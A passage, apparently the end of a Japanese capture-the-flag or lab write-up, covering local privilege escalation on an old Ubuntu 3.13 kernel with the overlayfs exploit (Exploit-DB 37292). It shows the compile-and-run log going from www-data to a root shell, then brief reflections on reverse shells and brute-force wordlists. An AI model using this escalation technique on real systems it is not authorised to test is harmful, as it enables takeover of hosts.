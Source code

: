 ## 権限昇格

### overlayfs

https://www.exploit-db.com/exploits/37292

```sh
www-data@ubuntu:/var/www/html/gnocertdir/lib/editor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

```sh
www-data@ubuntu:/tmp$ cc ofs.c -o ofs
www-data@ubuntu:/tmp$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

## 振り返り

- 長い。ガイド付きでなければ極めて困難だったと思う。特にリバースシェルのところ。
- ブルートフォースはリスト選びが難しい。
- カーネルが古かったら overlayfs を試したい。
